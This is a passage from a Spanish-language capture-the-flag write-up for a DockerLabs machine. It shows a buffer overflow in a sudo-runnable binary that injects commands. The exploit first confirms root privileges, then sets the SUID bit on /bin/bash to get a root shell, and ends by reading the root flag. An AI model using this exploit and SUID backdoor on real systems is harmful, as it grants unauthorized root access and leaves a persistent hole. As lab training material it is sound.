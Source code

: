 
Utilizo Python para generar la entrada maliciosa y enviarla al programa vulnerable. Y confirmo que tengo permisos elevados.

```terminal
flow@kali:~$ python3 -c 'print("A" * 76 + "\x74\x6f\x6f\x72" + "\nid\n")' | sudo /usr/local/bin/manager
```

![](assets/img/dockerlabs-writeup-flow/flow3_8.png)

Activo el bit SUID en `/bin/bash`, permitiendo ejecutar bash con privilegios de `root` sin necesidad de sudo.

```terminal
flow@kali:~$ python3 -c 'print("A" * 76 + "\x74\x6f\x6f\x72" + "\nchmod u+s /bin/bash\n")' | sudo /usr/local/bin/manager
```

```terminal
flow@kali:~$ /bin/bash -p
bash-5.2# id
uid=1001(flow) gid=1001(flow) euid=0(root) groups=1001(flow),100(users)

bash-5.2# cat /root/root.txt
```
